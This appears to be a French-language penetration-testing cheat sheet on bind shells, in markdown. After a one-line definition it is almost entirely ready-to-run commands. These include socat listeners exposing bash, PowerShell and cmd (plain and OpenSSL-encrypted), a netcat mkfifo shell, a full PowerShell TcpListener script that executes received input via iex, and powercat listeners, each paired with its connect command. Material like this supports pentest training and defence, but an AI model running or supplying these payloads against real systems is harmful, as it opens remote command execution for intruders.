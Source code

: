# Bind shell

Se produisent lorsque le code exécuté sur la cible est utilisé pour démarrer un écouteur attaché à un shell directement sur la cible.

**NB: L'avantage de ne nécessiter aucune configuration sur votre propre réseau, mais peut être empêché par des pare-feu protégeant la cible.**


## Socat

Demarrer un ecouteur de shell 

```sh
socat TCP-L:<PORT> EXEC:"/bin/bash"
```

```sh
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

Connecter à l'auditeur en attente

```sh
socat TCP:<TARGET-IP>:<PORT> -
```

### Shell cryptées

Générer un certificat afin d'utiliser des shells cryptés

```sh
openssl req --newkey rsa:2028 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

Fusionner les deux fichiers en un seul 

```sh
cat shell.key shell.crt > shell.pem
```

Demarrer un ecouteur 

```sh
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0,fork EXEC:"/bin/bash"
```

```sh
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0,fork EXEC:cmd.exe,pipes
```

Connecter à l'auditeur en attente:

```sh
socat OPENSSL:<TARGET-IP>:<PORT>,verify=0 -
```

### Shell communes

```sh
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

```sh
nc -nv <TARGET-IP> <PORT>
```

## PowerShell 

Executer ceci dans powershell

```sh
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0', '443');
$listener.start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);
	$sendback = (iex $data 2>&1 | Out-String);
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush();
}
$client.Close();
$listener.Stop();
```

```sh
nc -nv <TARGET-IP> 443
```

## PowerCat
C'est la version powershell de netcat

```sh
. .\powercat.ps1
powercat -l -p 9001 -ep -rep -v
```

```sh
nc -nv <TARGET-IP> 9001
```